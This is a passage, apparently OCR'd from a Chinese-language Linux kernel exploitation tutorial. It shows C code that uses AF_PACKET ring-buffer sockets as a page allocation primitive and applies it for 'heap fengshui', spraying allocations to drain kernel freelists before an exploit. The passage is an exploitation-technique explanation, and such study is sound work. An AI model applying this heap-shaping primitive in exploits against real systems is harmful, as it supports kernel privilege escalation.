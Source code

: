 ```c
    }
}

int packet_socket_setup(unsigned int block_size, unsigned int frame_size,
                        unsigned int block_nr, unsigned int sizeof_priv, int timeout) {
    int s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
    if (s < 0) {
        die("socket(AF_PACKET): %m");
    }

    packet_socket_rx_ring_init(s, block_size, frame_size, block_nr,
                               sizeof_priv, timeout);

    struct sockaddr_ll sa;
    memset(&sa, 0, sizeof(sa));
    sa.sll_family = PF_PACKET;
    sa.sll_protocol = htons(ETH_P_ALL);
    sa.sll_ifindex = if_nametoindex("lo");
    sa.sll_hatype = 0;
    sa.sll_pkttype = 0;
    sa.sll_halen = 0;

    int rv = bind(s, (struct sockaddr *)&sa, sizeof(sa));
    if (rv < 0) {
        die("bind(AF_PACKET): %m");
    }

    return s;
}

int pagealloc_pad(int count, int size) {
    return packet_socket_setup(size, 2048, count, 0, 100);
}

int fd;

fd = pagealloc_pad(1, 0x10000) // 分配一个0x10000的chunk
close(fd) // 释放 chunk
    
fd = pagealloc_pad(100, 0x1000) // 分配 100 个 0x1000 的chunk
close(fd) // 一次性释放这个100个chunk
```



那么首先，我们用这个技巧把内核的堆整理一下，尽可能把freelist中的堆块都用完。

```c
logd("do heap fengshui to reduce noise ...");
pagealloc_pad(1000, 0x1000);
pagealloc_pad(500, 0x2000);
pagealloc_pad(200, 0x4000);
pagealloc_pad(200, 0x8000);
pagealloc_pad(100, 0x10000);
```
